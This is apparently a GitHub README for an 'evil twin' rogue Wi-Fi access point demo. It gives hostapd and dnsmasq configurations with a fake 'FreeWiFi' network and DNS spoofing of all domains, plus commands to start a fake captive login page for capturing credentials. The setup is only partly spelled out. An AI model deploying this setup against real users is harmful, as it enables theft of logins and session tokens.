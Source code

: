 # 📡 Rogue Access Point (Evil Twin) – Wi-Fi Attack Demo

This simulation sets up a rogue Wi-Fi AP to impersonate a legitimate network and capture user credentials via a fake captive portal.

---

## 🧰 Tools Required

- `hostapd`
- `dnsmasq`
- `iptables`
- `nginx` or custom captive portal
- Kali Linux or any Linux distro

---

## ⚙️ Setup Steps

1. **Configure `hostapd.conf`:**

```bash
interface=wlan0
driver=nl80211
ssid=FreeWiFi
hw_mode=g
channel=6
```
2. Configure dnsmasq.conf:

```bash
interface=wlan0
dhcp-range=10.0.0.10,10.0.0.100,12h
address=/#/10.0.0.1
```

3. Start services:

```bash
sudo hostapd hostapd.conf
sudo dnsmasq -C dnsmasq.conf
```

4. Serve the fake login page:

```bash
sudo service nginx start
```

## 🔐 Real-World Impact

Users often connect to open Wi-Fi without verifying legitimacy. With DNS spoofing and fake portals, attackers can capture login credentials or session tokens.
